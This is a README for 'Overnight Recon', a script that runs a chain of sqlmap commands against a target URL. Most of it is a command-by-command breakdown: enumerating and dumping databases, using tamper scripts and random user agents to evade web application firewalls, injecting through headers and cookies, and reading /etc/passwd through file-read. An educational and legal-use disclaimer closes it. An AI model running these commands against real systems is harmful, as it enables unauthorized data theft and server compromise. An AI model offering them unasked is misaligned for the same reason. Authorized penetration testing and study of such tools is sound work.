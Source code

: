 

**Overnight Recon** is an automated reconnaissance tool designed for security professionals and researchers. It executes a series of predefined SQL injection commands against a target to identify potential vulnerabilities. The tool operates in verbose mode, logging all activities into a log file for detailed analysis.

### Features
- Executes SQL injection commands against a specified target.
- Supports verbose mode with comprehensive logging.
- Logs all activities into `logsql.txt` for review.
- Customizable for additional tools and commands.

### License
This tool is licensed under the **GNU General Public License (GPL) v3.0**. You are free to modify and redistribute the code, provided that any derivative works are also open source under the GPL license.

### Installation

#### On Linux

1. **Install Required Packages:**
   Ensure you have Python 3 and pip installed. You can install them using your package manager if they are not already installed.

   ```
   sudo apt update
   sudo apt install python3 python3-pip
   ```

2. **Install SQLMap:**
   SQLMap is a popular SQL injection tool used for detecting and exploiting SQL injection flaws. Install it via pip.

   ```
   sudo pip3 install sqlmap
   ```

3. **Download and Set Up Overnight Recon:**
   Clone the repository and make the script executable.

   ```
   git clone https://github.com/IlumCI/Overnight-Recon.git
   cd Overnight-Recon
   chmod +x ovrecon.sh
   ```

4. **Run the Script:**
   You can now run the script by executing:

   ```
   ./ovrecon.sh
   ```

#### On Windows (via WSL)

1. **Install WSL (Windows Subsystem for Linux):**
   Follow the instructions [here](https://docs.microsoft.com/en-us/windows/wsl/install) to install WSL and a Linux distribution of your choice.

2. **Install Required Packages in WSL:**
   Open your WSL terminal and install Python 3 and pip.

   ```
   sudo apt update
   sudo apt install python3 python3-pip
   ```

3. **Install SQLMap:**
   Install SQLMap using pip.

   ```
   sudo pip3 install sqlmap
   ```

4. **Download and Set Up Overnight Recon:**
   Clone the repository and make the script executable.

   ```
   git clone https://github.com/IlumCI/Overnight-Recon.git
   cd Overnight-Recon
   chmod +x ovrecon.sh
   ```

5. **Run the Script:**
   Execute the script with:

   ```
   ./ovrecon.sh
   ```


---

## Command Breakdown

This section provides an explanation of what each SQLmap command in the `ovrecon.sh` script does to the target. Understanding these actions is crucial for effective testing and exploitation.

### 1. Basic SQL Injection Test
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 -v 6
```
- **Purpose**: This command initiates a basic SQL injection test on the target URL with the given POST data.
- **Details**:
  - `--batch`: Automatically accepts default options to avoid interactive prompts.
  - `--level=3`: Specifies the intensity of tests, with level 3 performing more thorough checks.
  - `--risk=2`: Focuses on riskier tests that could potentially alter the database but are more likely to uncover vulnerabilities.
  - `-v 6`: Provides the most detailed output, showing all HTTP requests and responses.

### 2. Enumerate the Databases
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --dbs -v 6
```
- **Purpose**: This command attempts to list all the databases on the target server.
- **Details**:
  - `--dbs`: Tells SQLmap to enumerate databases if an SQL injection vulnerability is found.

### 3. Dump Data from a Specific Table
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 -D '$DATABASE_NAME' -T '$TABLE_NAME' --dump -v 6
```
- **Purpose**: Extracts data from a specific table in a specified database.
- **Details**:
  - `-D '$DATABASE_NAME'`: Specifies the database to target.
  - `-T '$TABLE_NAME'`: Specifies the table within the database.
  - `--dump`: Dumps all data from the specified table.

### 4. Identify Injection Points
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=5 --risk=3 --identify-waf -v 6
```
- **Purpose**: Identifies specific points in the target where SQL injection can occur and checks for Web Application Firewalls (WAFs).
- **Details**:
  - `--level=5`: Performs the most extensive and thorough tests.
  - `--risk=3`: Executes highly risky tests that could have severe impacts on the database.
  - `--identify-waf`: Detects the presence of WAFs that could block SQL injection attempts.

### 5. Use Tamper Scripts to Bypass WAF
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --tamper='$TAMPER_SCRIPTS' -v 6
```
- **Purpose**: Attempts to bypass WAF protections by modifying the SQL payload using tamper scripts.
- **Details**:
  - `--tamper='$TAMPER_SCRIPTS'`: Uses the specified tamper scripts (`space2comment`, `randomcase`) to alter the SQL injection payload in ways that may bypass WAF filters.

### 6. Test for Injection via HTTP Headers
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --headers='X-Forwarded-For: 127.0.0.1' -v 6
```
- **Purpose**: Tests for SQL injection vulnerabilities via HTTP headers.
- **Details**:
  - `--headers='X-Forwarded-For: 127.0.0.1'`: Adds a custom HTTP header to the request, which can sometimes bypass certain security mechanisms or reveal additional vulnerabilities.

### 7. Use Cookies for Injection Testing
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --cookie='session=abc123' -v 6
```
- **Purpose**: Explores SQL injection vulnerabilities by injecting into the cookie field.
- **Details**:
  - `--cookie='session=abc123'`: Uses a custom cookie, simulating an authenticated session to check if the application is vulnerable when cookies are manipulated.

### 8. Use Different HTTP Methods
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --method=POST -v 6
```
- **Purpose**: Tests for SQL injection vulnerabilities using different HTTP methods.
- **Details**:
  - `--method=POST`: Specifies the HTTP method to be used in the request, which can affect how the server processes the input and reveal different vulnerabilities.

### 9. Randomize User-Agent and Referer
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --random-agent -v 6
```
- **Purpose**: Randomizes the `User-Agent` and `Referer` headers to evade basic security measures and test for SQL injection vulnerabilities under different conditions.
- **Details**:
  - `--random-agent`: Randomizes the `User-Agent` header to simulate different browsers or devices, which can bypass some security filters.

### 10. Check for SQL Injection via Files and Payloads
```bash
sqlmap -u '$TARGET_URL' --data='$POST_DATA' --batch --level=3 --risk=2 --file-read=/etc/passwd -v 6
```
- **Purpose**: Attempts to exploit SQL injection to read sensitive files from the server.
- **Details**:
  - `--file-read=/etc/passwd`: Attempts to read the `/etc/passwd` file on Unix-like systems, which contains user account information.

---

   
---

## For Educational Purposes

**Overnight Recon** is designed strictly for educational and research purposes. It is intended to help security professionals understand how automated reconnaissance tools can be used in penetration testing and security assessments.

**Disclaimer:**
- **Legal Use Only**: Use this tool only on systems you own or have explicit permission to test. Unauthorized use against systems without permission is illegal and unethical.
- **Educational Intent**: This tool is provided for learning purposes to understand security concepts and practices. The creator of this tool disclaims any responsibility for misuse or illegal activities.

**Guidance for Use:**
- **Learning**: Utilize this tool to learn about SQL injection and automated testing.
- **Testing**: Test your own systems or participate in ethical hacking environments where you have consent.
- **Improvement**: Modify and enhance the tool as part of your learning process, but always ensure you comply with legal and ethical standards.

---
